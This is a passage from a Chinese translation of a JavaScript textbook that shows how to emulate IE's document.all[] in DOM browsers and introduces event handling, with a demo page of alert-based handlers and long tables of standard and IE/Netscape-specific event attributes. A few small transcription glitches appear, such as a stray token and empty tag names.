不管你喜不喜欢，大量脚本代码都是为上一章讨论的 Internet Explorer 对象模型编写的。该模型中最流行的方面可能是 **document.all[]**。此集合包含整个文档中按读取顺序排列的所有 (X)HTML 元素。鉴于许多 JavaScript 应用程序都是利用这一结构编写的，你可能会想知道它与 DOM 的关系是什么。简而言之，没有关系。DOM 不支持这种结构，但在支持 DOM 的浏览器中模拟它并不难。例如，在 DOM 下，我们可以使用 **document.getElementsByTagName()** 方法来获取文档中的所有元素。如果 **all[]** 集合不存在，阳气bt 我们可以将实例属性 **document.all** 设置为 **document.getElementsByTagName("*")**。以下示例说明了这一思路：

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>All Test</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
</head>
<body>
<!-- comment 1 -->
<h1>This is a heading</h1>
<hr />
<p id="test">This is a test.<em>This is just a test</em>!</p>
<a href="http://www.yahoo.com">a link</a>
<p>Another paragraph</p>
<badtag>bad very bad!</badtag>
<script type="text/javascript">
<!--
if (!document.all)
  document.all = document.getElementsByTagName("*");

var allTags ="Document.all.length="+document.all.length+"\n";

for (i = 0; i < document.all.length; i++)
  allTags += document.all[i].tagName + "\n";

alert(allTags);
alert("Test All: "+document.all['test'].innerHTML);
//-->
</script>
</body>
</html>
```

需要注意的是，此示例实际上并不能为 Mozilla 或其他支持 DOM 的浏览器创建完全兼容的 **all[]** 集合，因为微软的 **all[]** 集合会包含注释以及未知元素的开始标签和结束标签。下面的两个对话框展示了这一差异：


虽然可以将 DOCTYPE 和注释插入我们模拟的 **all[]** 集合中，但 Internet Explorer 的坏标签"特性"却带来了问题。不过，正如我们在 *图 10-6* 中的第二个 **alert()** 测试所示，如果你只是想在支持 DOM 的浏览器中保留之前的脚本代码，情况并没有那么糟！


**图 10-6：** 跨浏览器使用 **document.all[]**

### 总结

DOM 为 JavaScript 展示了一个光明的未来，在这个未来中，脚本、HTML 和样式表之间的交叉点被清晰地定义。使用 DOM 和 JavaScript，我们不再局限于对网页进行小幅度的修改。我们可以使用添加到 **Document** 对象上的方法（如 **getElementById()**、**getElementsByName()** 和 **getElementsByTagName()**）来访问文档中的任何标签。一旦访问了元素，就可以修改它们的属性和内容。我们可以动态创建标签和文本片段，甚至可以从零开始创建一个全新的 HTML 文档。这就是 Dynamic HTML 的真正承诺。

遗憾的是，DOM 目前还缺乏良好的支持。6.x 代的浏览器对 DOM Level 1 有较好的支持，但对此类操作的支持仍然有些问题。即使在浏览器支持 DOM 的情况下，DOM 也带来了重大挑战。首先，如果脚本要正确运行，HTML 语法必须得到更严格的执行。W3C 自己也承认，在格式不规范的文档上使用 DOM 执行脚本，其结果是"不可预测的"。其次，JavaScript 程序员必须深入了解树操作。考虑到这些限制，我们可能不会看到每个 JavaScript 开发者都急于使用 DOM，而旧式的对象和访问方法很可能会继续存在一段时间。当我们在本书的下一部分中学习实际应用时，我们会经常看到本章介绍的 DOM 方法与传统 JavaScript 编程方法之间的对比。然而，在介绍这些应用之前，我们还需要最后一个主题——事件处理。

## 第 11 章：事件处理

浏览器能够根据用户在网页中的操作来调用 JavaScript。例如，可以指定在用户点击某个链接或修改表单字段时运行特定的 JavaScript。JavaScript 能够响应的操作称为*事件*。事件是连接用户与网页的纽带；它们使页面具有交互性，能够响应用户的行为。*事件模型*定义了事件的处理方式以及事件与各种文档和浏览器对象的关联方式。

与 JavaScript 的许多其他方面一样，主要浏览器的事件模型也以可预见的方式朝着不同且不兼容的方向发展。在 Internet Explorer 和 Netscape 浏览器的第四个版本之前，仅有对事件的基本支持。第四代主流浏览器添加了新的事件和功能，极大地增强了程序员对事件模型许多方面的控制。然而，由于这些事件模型的差异性，W3C 再次介入，在 DOM2 中纳入了一个标准事件模型。该模型将事件扩展到 DOM 中，将两种不兼容的模型结合起来，为事件处理提供了强大而稳健的环境。本章从基本的事件模型及其在 (X)HTML 和 JavaScript 中的融入方式开始。然后讨论 4.x 代浏览器的事件模型，最后介绍 DOM2 事件模型。

### 事件和事件处理概述

*事件*是浏览器内部发生的、脚本可以响应的某个显著动作。当用户点击鼠标、提交表单，甚至将鼠标移到页面上的某个对象上时，都会触发事件。*事件处理程序*是与文档的特定部分和特定事件相关联的 JavaScript 代码。当给定事件在其关联的文档部分发生时，处理程序就会被执行。例如，与按钮元素关联的事件处理程序可以在按钮被点击时打开弹出窗口，或者与表单字段关联的处理程序可以在表单字段的值发生变化时验证用户输入的数据。

大多数事件以描述性的方式命名。应该很容易推断出 **click**、**submit** 和 **mouseover** 分别对应哪种用户操作。有些事件的命名不太直观，例如 **blur** 表示一个字段或对象失去了 **focus**，即不再处于活动状态。传统上，与特定操作关联的处理程序以事件名加"on"前缀来命名。例如，**click** 事件的处理程序称为 **onclick**。

事件不仅限于与文档相关的基本用户操作，如 **click** 和 **mouseover**。例如，大多数浏览器支持 **resize** 和 **load** 等事件，这些事件与窗口活动有关，如调整窗口大小或从网络或磁盘加载文档。

浏览器通过一个 **Event** 对象向处理程序提供关于正在发生的事件的详细信息。**Event** 对象包含关于事件的上下文信息，例如 **click** 发生时的确切屏幕 x 和 y 坐标，以及当时是否按下了 SHIFT 键。

由用户操作产生的事件通常有一个*目标*，即事件发生的 (X)HTML 元素。例如，**click** 事件的目标就是用户点击的元素，如 <> 或 <<p>>。因此，事件处理程序是*绑定*到特定元素上的。当处理程序处理的事件在其绑定的元素上发生时，处理程序就会被执行。

> *注意* 浏览器的事件模型实际上比这更灵活；我们将在本章后面的章节中看到，处理程序如何在其绑定元素所包含的目标上发生的操作的响应中被调用。

处理程序可以通过多种方式绑定到元素，包括

- 使用传统的 (X)HTML 事件处理程序属性，例如 <<form onsubmit="*myFunction();*">>
- 使用脚本将处理程序设置为与对象关联，例如 **document.getElementById("*myForm*").onsubmit = myFunction;**
- 使用专有方法，如 Internet Explorer 的 **attachEvent()** 方法
- 使用 DOM2 方法，通过节点的 **addEventListener()** 方法设置*事件监听器*
- 通过 JavaScript 使用 DOM1 方法显式调用，例如
- **document.forms[0].submit()**
- 使用专有方法显式调用，如 Internet Explorer 的 **fireEvent()** 方法
- 通过 JavaScript 使用 DOM2 的 **dispatchEvent()** 方法显式调用

#### 事件模型的泛滥

存在如此多不同的方式来绑定和触发事件，是事件模型泛滥的不幸结果。早期浏览器支持一种在不同浏览器间相当一致的基本模型。Netscape 和 Internet Explorer 的第 4 版添加了新的、互不兼容的专有事件模型。最近加入的是 DOM2 模型，它标准化了事件的操作方式，并有望为 JavaScript 事件这个疯狂的世界带来一些一致性。这个不幸的复杂情况总结在表 11-1 中。

| 浏览器 | 基本模型？ | Internet Explorer 模型？ | Netscape 4 模型？ | DOM2 模型？ |
|---|---|---|---|---|
| Netscape 2-3 | 是 | 否 | 否 | 否 |
| Netscape 4 | 是 | 否 | 是 | 否 |
| 基于 Mozilla 的浏览器（例如 Netscape 6+） | 是 | 否 | 否 | 是 |
| Internet Explorer 3 | 是 | 否 | 否 | 否 |
| Internet Explorer 4-5.x | 是 | 是 | 否 | 否 |
| Internet Explorer 6 | 是 | 是 | 否 | 否 |

**表 11-1：浏览器事件模型兼容性的噩梦**


### 基本事件模型

在讨论更现代的事件模型之前，我们先来讨论几乎所有支持 JavaScript 的浏览器都共有的基本事件模型。该模型简单、兼容性广、易于理解。同时它也具备足够的灵活性和功能特性，以至于大多数开发者在日常编程任务中几乎不需要更多功能。值得庆幸的是，专有浏览器事件模型和较新的 DOM2 模型都与该基本模型兼容。这意味着即使在最新浏览器中，你也可以坚持使用基本模型。使用专有特性或 DOM2 的优势在于，它们能提供更多灵活性和高级行为，在构建基于 Web 的 JavaScript 应用时非常有用。

#### (X)HTML 中的事件绑定

HTML 为大多数元素支持核心*事件绑定*。这些绑定是元素属性，如 **onclick** 和 **onmouseover**，它们可以被设置为当给定事件在该对象上发生时要执行的 JavaScript 代码。当浏览器解析页面并创建文档对象层级结构时，它会使用这些属性将绑定到元素上的 JavaScript 代码填充到事件处理器中。例如，考虑以下简单的绑定，它为一个链接定义了一个 **click** 处理器：

```
<a href="http://www.w3c.org/DOM" onclick="alert('Now proceeding to DOM H.Q.');">Read about the W3C DOM</a>
```

> **注意** 尽管传统 HTML 不区分大小写，但 XHTML 要求元素和属性名称使用小写。因此虽然你可能会看到许多网页使用 "onClick" 或偶尔使用 "ONCLICK"，但全小写的 "onclick" 才是更正确的写法。

大多数 (X)HTML 事件属性涵盖用户操作，例如鼠标按钮的点击或按键的按下。(X)HTML 中支持的主要事件处理器属性汇总在表 11-2 中。

#### 表 11-2：(X)HTML 中的基本事件及其对应的事件处理器属性

| 事件属性 | 事件描述 | 标准 (X)HTML 下允许的元素 |
| --- | --- | --- |
| **onblur** | 当元素失去焦点时发生，意味着用户已激活了另一个元素，通常是通过点击另一个元素或通过 Tab 键切换到它。 | `<a>`、`<area>`、`<button>`、`<input>`、`<label>`、`<select>`、`<textarea>`<br>还包括 `<applet>`、`<area>`、`<div>`、`<embed>`、`<hr>`、``、`<marquee>`、`<object>`、`<span>`、`<table>`、`<td>`、`<tr>`<br>在 IE4+ 和 N4 中还包括 `<body>`<br>在 N4 中还包括 `<frameset>`、`<ilayer>`、`<layer>` |
| **onchange** | 表示表单字段已失去用户焦点，并且在最后一次访问期间其值已被修改。 | `<input>`、`<select>`、`<textarea>` |
| **onclick** | 表示元素已被点击。 | 大多数显示元素*<br>在 IE4+ 中还包括 `<applet>`、`<font>` |
| **ondblclick** | 表示元素已被双击。 | 大多数显示元素*<br>在 IE4+ 中还包括 `<applet>`、`<font>` |
| **onfocus** | 表示元素已获得焦点；换句话说，它已被用户选中以进行操作或数据输入。 | `<a>`、`<area>`、`<button>`、`<input>`、`<label>`、`<select>`、`<textarea>`<br>在 IE4+ 中还包括 `<applet>`、`<div>`、`<embed>`、`<hr>`、``、`<marquee>`、`<object>`、`<span>`、`<table>`、`<td>`、`<tr>`<br>在 IE4+ 和 N4 中还包括 `<body>`<br>在 N4 中还包括 `<frameset>`、`<ilayer>`、`<layer>` |
| **onkeydown** | 表示在元素获得焦点的情况下，某个键正被按下。 | 大多数显示元素*<br>在 IE4+ 中还包括 `<applet>`、`<font>` |
| **onkeypress** | 表示在元素获得焦点的情况下，某个键已被按下并释放。 | 大大多数显示元素*<br>在 IE4+ 中还包括 `<applet>`、`<font>` |
| **onkeyup** | 表示在元素获得焦点的情况下，某个键正被释放。 | 大多数显示元素*<br>在 IE4+ 中还包括 `<applet>`、`<font>` |
| **onload** | 表示对象（通常是窗口或框架集）已加载到浏览器中。 | **`<body>`**、**`<frameset>`**<br>在 IE4+ 中还包括 `<applet>`、`<embed>`、`<link>`、`<script>`、`<style>`<br>在 N4 中还包括 `<ilayer>`、`<layer>`<br>在 IE4+ 和 N4 中还包括 `` |
| **onmousedown** | 表示在元素获得焦点的情况下，鼠标按钮被按下。 | 大多数显示元素*<br>在 IE4+ 中还包括 `<applet>`、`<font>` |
| **onmousemove** | 表示鼠标在元素上方移动。 | 大多数显示元素*<br>在 IE4+ 中还包括 `<applet>`、`<font>` |
| **onmouseout** | 表示鼠标已移出元素（即不再位于元素上方）。 | 大多数显示元素*<br>在 IE4+ 中还包括 `<applet>`、`<font>`<br>在 N4 中还包括 `<ilayer>`、`<layer>` |
| **onmouseover** | 表示鼠标已移入元素上方。 | 大多数显示元素*<br>在 IE4+ 中还包括 `<applet>`、`<font>`<br>在 N4 中还包括 `<ilayer>`、`<layer>` |
| **onmouseup** | 表示在元素获得焦点的情况下，鼠标按钮被释放。 | 大多数显示元素*<br>在 IE4+ 中还包括 `<applet>`、`<font>` |
| **onreset** | 表示表单正在被重置，可能是通过按下重置按钮触发的。 | **`<form>`** |
| **onselect** | 表示用户选择了文本，通常是通过鼠标高亮显示它。 | **`<input>`**、**`<textarea>`** |
| **onsubmit** | 表示表单即将被提交，通常是激活提交按钮的结果。 | **`<form>`** |
| **onunload** | 表示浏览器正在离开当前文档，并将其从窗口或框架中卸载。 | **`<body>`**、**`<frameset>`** |

**注意** *在表 11-2 中*，Internet Explorer 和 Netscape 浏览器版本分别以 "IE" 和 "Netscape" 后跟版本号来缩写表示。Netscape 6 实现了部分 W3C DOM2 事件模型，将在后面章节中讨论。另外，"大多数显示元素*"是指除 `<applet>`、`<base>`、`<basefont>`、`<bdo>`、`<br>`、`<font>`、`<frame>`、`<frameset>`、`<head>`、`<html>`、`<iframe>`、`<isindex>`、`<meta>`、`<param>`、`<script>`、`<style>` 和 `<title>` 之外的所有元素。

此处展示的示例说明了这些事件的实际效果。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>HTML Event Bindings</title>

<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1" />

</head>

<body onload='alert("Event demo loaded");' onunload='alert("Leaving demo");'>

<h1 align="center">HTML Event Bindings</h1>

<form action="#" method="get" onreset="alert('Form reset');"
    onsubmit="alert('Form submit');return false;">

<ul>

<li>onblur:
<input type="text" value="Click into field and then leave"
    size="40" onblur="alert('Lost focus');" /><br /><br /></li>
<li>onclick: <input type="button" value="Click me"
    onclick="alert('Button click');" /><br /><br /></li>

<li>onchange: <input type="text" value="Change this text then leave"
    size="40" onchange="alert('Changed');" /><br /><br /></li>

<li>ondblclick: <input type="button" value="Double-click me"
    ondblclick="alert('Button double-clicked');" /><br /><br /></li>

<li>onfocus: <input type="text" value="Click into field"
    onfocus="alert('Gained focus');" /><br /><br /></li>
<li>onkeydown:
<input type="text" value="Press key and release slowly here" size="40"
    onkeydown="alert('Key down');" /><br /><br /></li>
<li>onkeypress: <input type="text" value="Type here" size="40" onkeypress="alert('Key pressed');" /></li>
<li>onkeyup: <input type="text" value="Press a key and release it" size="40" onkeyup="alert('Key up');" /></li>
<li>onload: An alert was shown when the document loaded.</li>
<li>onmousedown: <input type="button" value="Click and hold" onmousedown="alert('Mouse down');" /></li>
<li>onmousemove: Move mouse over this <a href="#" onmousemove="alert('Mouse moved');">link</a></li>
<li>onmouseout: Position mouse <a href="#" onmouseout="alert('Mouse out');">here</a> and then away.</li>
<li>onmouseover: Position mouse over this <a href="#" onmouseover="alert('Mouse over');">link</a></li>
<li>onmouseup: <input type="button" value="Click and release" onmouseup="alert('Mouse up');" /></li>
<li>onreset: <input type="reset" value="Reset Demo" /></li>
<li>onselect: <input type="text" value="Select this text" size="40" onselect="alert('selected');" /></li>
<li>onsubmit: <input type="submit" value="Test submit" /></li>
<li>onunload: Try to leave document by following this <a href="http://www.google.com">link</a></li>
</ul>
</form>
</body>
</html>
```

浏览器可能支持超出 (X)HTML 规范定义的事件。微软特别引入了大量事件，用于捕获更复杂的鼠标操作（如拖拽）、元素事件（如 `<marquee>` 文本的弹跳）以及数据加载信号的数据绑定事件。其中一些事件在表 11-3 中有更详细的描述。这些事件属于非标准事件，除少数例外外，主要用于内部网络环境，因为在这种环境中可以保证浏览器的兼容性。我们不会在这里深入讨论这些事件，但你可以在 msdn.microsoft.com 上找到更多信息。在 Google 上搜索 site:msdn.microsoft.com dhtml events 也应该能找到它们。

#### 表 11-3：Netscape 和 Internet Explorer 中部分非标准事件处理器示例

| 事件属性 | 事件描述 | 允许的元素 | 兼容性 |
|---|---|---|---|
| **onabort** | 用户通过 Stop 按钮或类似机制中止图片加载时触发。 | `` | Netscape 3, 4–4.7 Internet Explorer 4+ |
| **onactivate** | 元素成为活动元素时触发，即当其父框架或窗口获得焦点时，该元素将拥有焦点。 | 大多数显示元素 | Internet Explorer 5.5+ |
| **onafterprint** | 用户打印文档或预览打印后触发。 | `<body>`, `<frameset>` | Internet Explorer 5+ |
| **onafterupdate** | 数据从元素传输到数据提供程序后触发。 | `<applet>`, `<body>`, `<button>`, `<caption>`, `<div>`, `<embed>`, ``, `<input>`, `<marquee>`, `<object>`, `<select>`, `<table>`, `<td>`, `<textarea>`, `<tr>` | Internet Explorer 4+ |
| **onbeforeactivate** | 元素即将成为活动元素时触发（参见 **onactivate**）。 | 大多数显示元素 | Internet Explorer 5.5+ |
| **onbeforecopy** | 选定内容被复制并放入用户系统剪贴板之前触发。 | `<a>`, `<address>`, `<area>`, `<b>`, `<bdo>`, `<big>`, `<blockquote>`, `<caption>`, `<center>`, `<cite>`, `<code>`, `<custom>`, `<dd>`, `<dfn>`, `<dir>`, `<div>`, `<dl>`, `<dt>`, `<em>`, `<fieldset>`, `<form>`, `<h1>` – `<h6>`, `<i>`, ``, `<label>`, `<legend>`, `<li>`, `<listing>`, `<menu>`, `<nobr>`, `<ol>`, `<p>`, `<plaintext>`, `<pre>`, `<s>`, `<samp>`, `<small>`, `<span>`, `<strike>`, `<strong>`, `<sub>`, `<sup>`, `<td>`, `<textarea>`, `<th>`, `<tr>`, `<tt>`, `<u>`, `<ul>` | Internet Explorer 5+ |
| **onbeforecut** | 选定内容从文档中剪切并添加到系统剪贴板之前触发。 | `<a>`, `<address>`, `<applet>`, `<area>`, `<b>`, `<bdo>`, `<big>`, `<blockquote>`, `<body>`, `<button>`, `<caption>`, `<center>`, `<cite>`, `<code>`, `<customNIC>`, `<dd>`, `<dfn>`, `<dir>`, `<div>`, `<dl>`, `<dt>`, `<em>`, `<embed>`, `<fieldset>`, `<font>`, `<form>`, `<h1>` - `<h6>`, `<hr>`, `<i>`, ``, `<input>`, `<kbd>`, `<label>`, `<legend>`, `<li>`, `<listing>`, `<map>`, `<marquee>`, `<menu>`, `<nobr>`, `<ol>`, `<p>`, `<plaintext>`, `<pre>`, `<rt>`, `<ruby>`, `<s>`, `<samp>`, `<select>`, `<small>`, `<span>`, `<strike>`, `<strong>`, `<sub>`, `<sup>`, `<table>`, `<tbody>`, `<td>`, `<textarea>`, `<tfoot>`, `<th>`, `<thead>`, `<tr>`, `<tt>`, `<u>`, `<ul>`, `<var>`, `<xmp>` | Internet Explorer 5+ |
| **onbeforedeactivate** | 活动元素从当前元素变为其他元素之前触发。 | 大多数显示元素 | Internet Explorer 5.5+ |
| **onbeforeeditfocus** | 使用设计模式或可编辑内容特性时，当包含的元素获得编辑焦点时触发。 | 大多数元素 | Internet Explorer 5 中的表单字段，Internet Explorer 5.5+ 中的所有元素 |
| **onbeforepaste** | 选定内容粘贴到文档之前触发。 | `<a>`, `<address>`, `<applet>`, `<area>`, `<b>`, `<bdo>`, `<big>`, `<blockquote>`, `<body>`, `<button>`, `<caption>`, `<center>`, `<cite>`, `<code>`, `<custom>`, `<dd>`, `<dfn>`, `<dir>`, `<div>`, `<dl>`, `<dt>`, `<em>`, `<embed>`, `<fieldset>`, `<font>`, `<form>`, `<h1>` - `<h6>`, `<hr>`, `<i>`, ``, `<input>`, `<kbd>`, `<label>`, `<legend>`, `<li>`, `<listing>`, `<map>`, `<marquee>`, `<menu>`, `<nobr>`, `<ol>`, `<p>`, `<plaintext>`, `<pre>`, `<rt>`, `<ruby>`, `<s>`, `<samp>`, `<select>`, `<small>`, `<span>`, `<strike>`, `<strong>`, `<sub>`, `<sup>`, `<table>`, `<tbody>`, `<td>`, `<textarea>`, `<tfoot>`, `<th>`, `<thead>`, `<tr>`, `<tt>`, `<u>`, `<ul>`, `<var>`, `<xmp>` | Internet Explorer 5+ |
| **onbeforeprint** | 用户打印文档或预览打印之前触发。 | `<body>`, `<frameset>` | Internet Explorer 5+ |
| **onbeforeunload** | 文档从窗口中卸载之前触发。 | `<body>`, `<frameset>` | Internet Explorer 4+ |
| **onbeforeupdate** | 数据从元素传输到数据提供程序之前触发。可能由显式操作、失去焦点或页面卸载强制数据更新触发。 | `<applet>`, `<body>`, `<button>`, `<caption>`, `<div>`, `<embed>`, `<hr>`, ``, `<input>`, `<object>`, `<select>`, `<table>`, `<td>`, `<textarea>`, `<tr>` | Internet Explorer 4+ |
| **onbounce** | `<marquee>` 的弹跳内容触碰到一侧时触发。 | `<marquee>` | Internet Explorer 4+ |
| **oncellchange** | 数据提供程序中的数据发生变化时触发。 | `<applet>`, `<bdo>`, `<object>` | Internet Explorer 5+ |
| **oncontextmenu** | 用户点击鼠标右键打开上下文相关菜单时触发。 | 大多数元素 | Internet Explorer 5+, 基于 Mozilla 的浏览器 |
| **oncontrolselect** | 使用设计模式或可编辑内容特性时，用户选择对象时触发。 | 大多数元素 | Internet Explorer 5.5+ |
| **oncopy** | 选定内容从文档复制到剪贴板时，在目标对象上触发。 | `<a>`, `<address>`, `<area>`, `<b>`, `<bdo>`, `<big>`, `<blockquote>`, `<caption>`, `<center>`, `<cite>`, `<code>`, `<dd>`, `<dfn>`, `<dir>`, `<div>`, `<dl>`, `<dt>`, `<em>`, `<fieldset>`, `<form>`, `<h1>` – `<h6>`, `<hr>`, `<i>`, ``, `<legend>`, `<li>`, `<listing>`, `<menu>`, `<nobr>`, `<ol>`, `<p>`, `<plaintext>`, `<pre>`, `<s>`, `<samp>`, `<small>`, `<span>`, `<strike>`, `<strong>`, `<sub>`, `<sup>`, `<td>`, `<th>`, `<tr>`, `<tt>`, `<u>`, `<ul>` | Internet Explorer 5+ |
| **oncut** | 选定内容从文档剪切并添加到系统剪贴板时触发。 | `<a>`, `<address>`, `<applet>`, `<area>`, `<b>`, `<bdo>`, `<big>`, `<blockquote>`, `<body>`, `<button>`, `<caption>`, `<center>`, `<cite>`, `<code>`, `<dd>`, `<dfn>`, `<dir>`, `<div>`, `<dl>`, `<dt>`, `<em>`, `<embed>`, `<fieldset>`, `<font>`, `<form>`, `<h1>` – `<h6>`, `<hr>`, `<i>`, ``, `<input>`, `<kbd>`, `<label>`, `<legend>`, `<li>`, `<listing>`, `<map>`, `<marquee>`, `<menu>`, `<nobr>`, `<ol>`, `<p>`, `<plaintext>`, `<pre>`, `<rt>`, `<ruby>`, `<s>`, `<samp>`, `<select>`, `<small>`, `<span>`, `<strike>`, `<strong>`, `<sub>`, `<sup>`, `<table>`, `<tbody>`, `<td>`, `<textarea>`, `<tfoot>`, `<th>`, `<thead>`, `<tr>`, `<tt>`, `<u>`, `<ul>`, `<var>`, `<xmp>` | Internet Explorer 5+ |
| **ondataavailable** | 异步传输信息的数据源有数据到达时触发。 | `<applet>`, `<object>` | Internet Explorer 4+ |
| **ondatasetchanged** | 数据源中初始数据可用或数据发生变化时触发。 | `<applet>`, `<object>` | Internet Explorer 4+ |
| **ondatasetcomplete** | 数据源中所有数据均可用时触发。 | `<applet>`, `<object>` | Internet Explorer 4+ |
| **ondrag** | 对象被拖拽期间持续触发。 | 大多数元素 | Internet Explorer 5+ |
| **ondragdrop** | 用户拖拽对象到浏览器窗口尝试加载时触发。 | `<body>`, `<frameset>` (window) | Netscape 4–4.7 |
| **ondragend** | 用户在拖拽操作结束时释放鼠标按钮，在被拖拽对象上触发。 | 大多数元素 | Internet Explorer 5+ |
| **ondragenter** | 用户拖拽对象到有效放置目标上方时，在该目标上触发。 | 大多数元素 | Internet Explorer 5+ |
| **ondragleave** | 用户拖拽对象离开有效放置目标时，在该目标上触发。 | 大多数元素 | Internet Explorer 5+ |
| **ondragover** | 用户拖拽对象悬停在有效放置目标上方期间持续触发。 | 大多数元素 | Internet Explorer 5+ |
| **ondragstart** | 用户开始拖拽高亮选区时触发。 | `<a>`, `<acronym>`, `<address>`, `<applet>`, `<area>`, `<b>`, `<big>`, `<blockquote>`, `<body>` (document), `<button>`, `<caption>`, `<center>`, `<cite>`, `<code>`, `<dd>`, `<del>`, `<dfn>`, `<dir>`, `<div>`, `<dl>`, `<dt>`, `<em>`, `<font>`, `<form>`, `<frameset>` (document), `<h1>`, `<h2>`, `<h3>`, `<h4>`, `<h5>`, `<h6>`, `<hr>`, `<i>`, ``, `<input>`, `<kbd>`, `<label>`, `<li>`, `<listing>`, `<map>`, `<marquee>`, `<menu>`, `<object>`, `<ol>`, `<option>`, `<p>`, `<plaintext>`, `<pre>`, `<q>`, `<s>`, `<samp>`, `<select>`, `<small>`, `<span>`, `<strike>`, `<strong>`, `<sub>`, `<sup>`, `<table>`, `<tbody>`, `<td>`, `<textarea>`, `<tfoot>`, `<th>`, `<thead>`, `<tr>`, `<tt>`, `<u>`, `<ul>`, `<var>`, `<xmp>` | Internet Explorer 4+ |

 | Event | Description | Applies To | Browser Support |
| :--- | :--- | :--- | :--- |
| **ondrop** | 当用户将对象拖放到有效的放置目标上并释放鼠标按钮时触发。 | 大多数元素 | Internet Explorer 5+ |
| **onerror** | 当文档加载或脚本执行导致错误时触发。用于捕获运行时错误。 | `<body>`, `<frameset>` (window), ``（以及 Internet Explorer 4 中的 `<link>`, `<object>`, `<script>`, `<style>`） | Netscape 3, 4–4.7<br>Internet Explorer 4+ |
| **onerrorupdate** | 如果数据传输已被 **onbeforeupdate** 事件处理程序取消，则触发。 | `<a>`, `<applet>`, `<object>`, `<select>`, `<textarea>` | Internet Explorer 4+ |
| **onfilterchange** | 当页面 CSS 过滤器状态改变或完成时触发。 | 大多数元素 | Internet Explorer 4+ |
| **onfinish** | 当循环滚动的 marquee 完成时触发。 | `<marquee>` | Internet Explorer 4+ |
| **onfocusin** | 在元素即将获得焦点之前触发。 | 大多数元素 | Internet Explorer 6+ |
| **onfocusout** | 在元素即将失去焦点之前触发。 | 大多数元素 | Internet Explorer 6+ |
| **onhelp** | 当用户按下 F1 键或用户代理中的类似帮助按钮时触发。 | 大多数元素 | Internet Explorer 4+ |
| **onlayoutcomplete** | 当布局区域已准备好打印或打印预览时触发。 | `<base>`, `<basefont>`, `<bgsound>`, `<br>`, `<col>`, `<dd>`, `<div>`, `<dl>`, `<dt>`, `<font>`, `<head>`, `<hr>`, `<html>`, `<layoutrect>`, `<li>`, `<meta>`, `<ol>`, `<option>`, `<p>`, `<title>`, `<ul>` | Internet Explorer 6 |
| **onlosecapture** | 当元素失去鼠标捕获时触发（IE 允许一个元素接收所有鼠标事件，即使这些事件并非发生在该元素上）。 | 大多数元素 | Internet Explorer 5+ |
| **onmouseenter** | 当用户将鼠标移动到元素上时触发（与 **onmouseover** 仅在冒泡行为上有所不同）。 | 大多数元素 | Internet Explorer 5.5+ |
| **onmouseleave** | 当用户将鼠标从元素上移开时触发（与 **onmouseout** 仅在冒泡行为上有所不同）。 | 大多数元素 | Internet Explorer 5.5+ |
| **onmousewheel** | 当用户转动鼠标滚轮时触发。 | 大多数元素 | Internet Explorer 6 |
| **onmove** | 当用户移动窗口时触发。 | `<body>`, `<frameset>` | Netscape 4–4.7 |
| **onmove** | 当对象在屏幕上移动时触发。 | 大多数显示元素。 | Internet Explorer 5.5+ |

| Event | Description | Applies to | Browser Support |
|---|---|---|---|
| **onmoveend** | 当对象在屏幕上完成移动后立即触发。 | 大多数显示元素。 | Internet Explorer 5.5+ |
| **onmovestart** | 当对象即将在屏幕上移动之前触发。 | 大多数显示元素。 | Internet Explorer 5.5+ |
| **onpaste** | 当内容被粘贴到文档中时触发。 | `<a>`, `<address>`, `<applet>`, `<area>`, `<b>`, `<bdo>`, `<big>`, `<blockquote>`, `<body>`, `<button>`, `<caption>`, `<center>`, `<cite>`, `<code>`, `<dd>`, `<dfn>`, `<dir>`, `<div>`, `<dl>`, `<dt>`, `<em>`, `<embed>`, `<fieldset>`, `<font>`, `<form>`, `<h1>` – `<h6>`, `<hr>`, `<i>`, ``, `<input>`, `<kbd>`, `<label>`, `<legend>`, `<li>`, `<listing>`, `<map>`, `<marquee>`, `<menu>`, `<nobr>`, `<ol>`, `<p>`, `<plaintext>`, `<pre>`, `<rt>`, `<ruby>`, `<s>`, `<samp>`, `<select>`, `<small>`, `<span>`, `<strike>`, `<strong>`, `<sub>`, `<sup>`, `<table>`, `<tbody>`, `<td>`, `<textarea>`, `<tfoot>`, `<th>`, `<thead>`, `<tr>`, `<tt>`, `<u>`, `<ul>`, `<var>`, `<xmp>` | Internet Explorer 5+ |
| **onpropertychange** | 每当元素的属性（或其包含的对象之一，例如其 **style** 对象）发生变化时触发。 | 大多数元素。 | Internet Explorer 5+ |
| **onreadystatechange** | 类似于 **onload**。每当对象的就绪状态发生变化时触发。 | `<applet>`, `<body>`, `<embed>`, `<frame>`, `<frameset>`, `<iframe>`, ``, `<link>`, `<object>`, `<script>`, `<style>` | Internet Explorer 4+ |
| **onresize** | 每当对象被调整大小时触发。在 Netscape 中，只能通过 **<body>** 标签绑定到窗口。 | `<applet>`, `<body>`, `<button>`, `<caption>`, `<div>`, `<embed>`, `<frameset>`, `<hr>`, ``, `<marquee>`, `<object>`, `<select>`, `<table>`, `<td>`, `<textarea>`, `<tr>` | Netscape 4, 4.5（仅支持 `<body>`）；Internet Explorer 4+ |
| **onresizeend** | 在使用设计模式或 contenteditable 功能时，在用户完成调整对象大小后触发。 | 大多数元素 | Internet Explorer 5.5+ |
| **onresizestart** | 在使用设计模式或 contenteditable 功能时，在用户开始调整对象大小时触发。 | 大多数元素。 | Internet Explorer 5.5+ |
| **onrowenter** | 指示绑定的数据行已更改，新的数据值可用。 | `<applet>`, `<body>`, `<button>`, `<caption>`, `<div>`, `<embed>`, `<hr>`, ``, `<marquee>`, `<object>`, `<select>`, `<table>`, `<td>`, `<textarea>`, `<tr>` | Internet Explorer 4+ |

| **Event Name** | **Description** | **Supported Elements** | **Supported Browser Versions** |
|---|---|---|---|
| **onrowexit** | 在绑定的数据源控件更改当前行之前立即触发。 | `<applet>`, `<body>`, `<button>`, `<caption>`, `<div>`, `<embed>`, `<hr>`, ``, `<marquee>`, `<object>`, `<select>`, `<table>`, `<td>`, `<textarea>`, `<tr>` | Internet Explorer 4+ |
